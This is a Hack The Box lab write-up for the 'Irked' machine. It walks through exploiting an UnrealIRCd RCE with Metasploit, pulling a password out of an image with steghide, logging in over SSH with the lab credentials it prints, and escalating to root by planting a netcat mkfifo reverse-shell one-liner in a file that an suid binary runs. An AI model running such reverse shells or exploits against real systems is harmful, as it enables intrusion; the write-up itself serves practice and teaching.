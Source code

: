 ```yaml
---
layout: post
title: Hack The Box - Irked
categories: hack-the-box
tags: [Linux, Steganography, Web, ssh, Reverse Engineering, Binary Exploitation]
image: /hackthebox/irked/0.png
---
```

<hr>
### Quick Summary
#### Hey guys, today Irked retired and here's my write-up about it. It was an easy straightforward machine, no rabbit holes and such things. To get an initial shell on the box we will exploit an RCE vulnerable irc server called `UnrealIRCd`. After getting a shell we will find a backup file which has a password. We will use that password to get a hidden text file from an image (steg). That text file contains another password which we will use to get ssh access as another user. Finally for privilege escalation there is an `suid` binary that executes a file, and we control that file so we can get a reverse shell as root. It's a linux box and its ip is `10.10.10.117`. I added it to `/etc/hosts` as `irked.htb`. Let's jump right in !
![](/images/hackthebox/irked/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/1.png)
#### There is ssh running on port 22 and http running on port 80. Let's take a look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/irked/2.png)
#### There is only that image and a message saying : `IRC is almost working!`, Source also has nothing interesting :
![](/images/hackthebox/irked/3.png)
#### We have a hint which is irc, let's check that. If we didn't find anything then we will continue with http.
<br>
<hr>
### IRC
#### I searched for irc and found [here](https://en.wikipedia.org/wiki/Internet_Relay_Chat#Technical_information) That if there is an irc server running on the machine, then probably it will be in the port range from 6000 to 7000. So I ran another nmap scan :
`nmap -p 6000-7000 -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/4.png)
#### There is an irc server running on port 6697 called `UnrealIRCd`. There are some known vulnerabilities for `UnrealIRCd`, One of them is a Remote Code Execution and there is a metasploit module for it :
![](/images/hackthebox/irked/5.png)
#### Let's check if the server is vulnerable to it.
![](/images/hackthebox/irked/6.png)
<br>
<br>
![](/images/hackthebox/irked/7.png)
#### It worked and we got a shell as `ircd` :
![](/images/hackthebox/irked/8.png)
<hr>
### Steg in `irked.jpg`, SSH as `djmardov`
#### There are two users on the box : `ircd` and `djmardov`. I checked `/home/ircd` and there was nothing interesting. In `/home/djmardov` I didn't find `user.txt` :
![](/images/hackthebox/irked/9.png)
#### I tried to go into `.ssh` but I got `Permission denied` :
![](/images/hackthebox/irked/10.png)
#### I checked other directories like `Desktop`, `Downloads`, `Documents` etc... And in `Documents` I found `user.txt` and a file called `.backup` :
![](/images/hackthebox/irked/11.png)
<br>
<br>
`cat .backup`
![](/images/hackthebox/irked/12.png)
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
#### It gives us a hint about some steg backup, we also get something that looks like a password : `UPupDOWNdownLRlrBAbaSSss`. But where will we use that password ? Remember the image we saw earlier on that apache server ?
![](/images/hackthebox/irked/2.png)
<br>
<br>
![](/images/hackthebox/irked/3.png)
#### I downloaded it then used `steghide` to check if there is any hidden file.
#### Note : I have a list for some steganography tools, If you are not familiar with steg you can check it [here](/lists/stego).
`wget http://irked.htb/irked.jpg`
![](/images/hackthebox/irked/13.png)
<br>
<br>
`steghide info irked.jpg`
![](/images/hackthebox/irked/14.png)
#### There is a hidden text file called `pass.txt`, Let's extract it :
`steghide extract -sf irked.jpg`
![](/images/hackthebox/irked/15.png)
<br>
<br>
`cat pass.txt`
![](/images/hackthebox/irked/16.png)
#### We got the password : `Kab6h+m+bbp2J:HG`, let's try to login as `djmardov` :
![](/images/hackthebox/irked/17.png)
#### We owned user !
<br>
<hr>
### Exploiting `viewuser`, Privilege Escalation to `root`
#### After some enumeration, I searched for `suid` binaries and in `/usr/bin` I found a binary called `viewuser`.
`find /usr/bin/ -perm -4000`
![](/images/hackthebox/irked/18.png)
#### It seems interesting so I decided to check it.
`viewuser`
![](/images/hackthebox/irked/19.png)
#### It shows logged in users, but we don't care about that. The only thing we care about is the last line : `/tmp/listusers: 1: /tmp/listusers: djmardov: not found`. It seems like it was trying to do something with the file `/tmp/listusers` which doesn't exist. I downloaded `viewuser` to try some stuff :
`scp djmardov@irked.htb:/usr/bin/viewuser ./`
![](/images/hackthebox/irked/20.png)
#### When I did `ltrace` on the binary I found that it executes `/tmp/listusers` :
![](/images/hackthebox/irked/21.png)
#### And since this binary runs as root, then it also executes `/tmp/listusers` as root. So we can simply get a reverse shell by putting the payload in `/tmp/listusers`, Then after running the binary again it should execute the payload.
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > /tmp/listusers`
![](/images/hackthebox/irked/22.png)
#### Everything is fine, let's check our listener :
![](/images/hackthebox/irked/23.png)
<br>
<br>
![](/images/hackthebox/irked/24.png)
#### Now we own root ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Teacher](/hack-the-box/teacher/)
#### Next Hack The Box write-up : [Hack The Box - BigHead](/hack-the-box/bighead/)
<hr>
